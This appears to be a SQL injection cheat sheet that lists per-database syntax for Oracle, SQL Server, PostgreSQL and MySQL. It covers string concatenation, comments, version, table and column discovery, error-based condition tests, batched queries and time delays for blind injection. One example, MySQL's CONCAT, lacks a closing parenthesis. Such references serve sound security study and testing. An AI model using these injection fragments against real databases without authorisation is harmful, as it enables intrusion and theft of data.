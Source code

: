 Different database types often have different syntaxes.

# String concatenation
String concatenation is the process of combining multiple strings to make a single string. It is useful for extracting multiple columns in one column slot.
- Oracle: `'abc'||'xyz'`
- Microsoft: `'abc'+'xyz'`
- PostgreSQL: `'abc'||'xyz'`
- MySQL: `'abc' 'xyz'` or `CONCAT('abc','xyz'`

# Substrings
Getting a substring means extracting a smaller portion of a string. It can be useful for letter-by-letter examination. The following substrings extract the value `de` from `abcdef`.
- Oracle: `SUBSTR('abcdef', 4, 2)`
- Microsoft: `SUBSTRING('abcdef', 4, 2)`
- PostgreSQL: `SUBSTRING('abcdef', 4, 2)`
- MySQL: `SUBSTRING('abcdef', 4, 2)`

# Comments
Comments can be used to ignore the remainder of a query.
- Oracle: `--comment`
- Microsoft: `--comment` or `/*comment*/`
- PostgreSQL: `--comment` or `/*comment*/`
- MySQL: `-- comment`, `#comment`, or `/*comment*/`

# Getting the database version
- Oracle: `SELECT banner FROM v$version` or `SELECT version FROM v$instance`
- Microsoft: `SELECT @@version`
- PostgreSQL: `SELECT version()`
- MySQL: `SELECT @@version`

# Getting table names
- Oracle: `SELECT * FROM all_tables`
- Microsoft: `SELECT * FROM information_schema.tables`
- PostgreSQL: `SELECT * FROM information_schema.tables`
- MySQL: `SELECT * FROM information_schema.tables`

# Getting column names
- Oracle: `SELECT * FROM all_tab_columns WHERE table_name = '<table name>'`
- Microsoft: `SELECT * FROM information_schema.columns WHERE table_name = '<table name>'`
- PostgreSQL: `SELECT * FROM information_schema.columns WHERE table_name = '<table name>'`
- MySQL: `SELECT * FROM information_schema.columns WHERE table_name = '<table name>'`

# Testing conditions
Testing conditions can be used to see if something is true, such as if a certain table exists. There are many ways to do this, and these are just one example.
- Oracle: `SELECT CASE WHEN (<condition>) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`
- Microsoft: `SELECT CASE WHEN (<condition>) THEN 1.0 ELSE NULL END`
- PostgreSQL: `1 = (SELECT CASE WHEN (condition) THEN CAST(1/0 AS INTEGER) ELSE NULL END)`
- MySQL: `SELECT IF(condition, (SELECT table_name FROM information_schema.tables),'a')`

# Batched queries
A way to run multiple queries in one command line.
- Oracle: Not supported
- Microsoft: `Query 1; Query 2`
- PostgreSQL: `Query 1; Query 2`
- MySQL: `Query 1; Query 2`

# Time delays
Time delays are useful for blind SQL injection. Here are some ways to cause 10 second time delays:
- Oracle: `dbms_pipe.receive_message(('a'),10)`
- Microsoft: `WAITFOR DELAY '0:0:10'`
- PostgreSQL: `SELECT pg_sleep(10)`
- MySQL: `SELECT SLEEP(10)`

# Conditional time delays
Used for checking conditions in blind SQL injection.
- Oracle: `SELECT CASE WHEN (<condition>) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`
- Microsoft: `IF (<condition>) WAITFOR DELAY '0:0:10'`
- PostgreSQL: `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`
- MySQL: `SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')`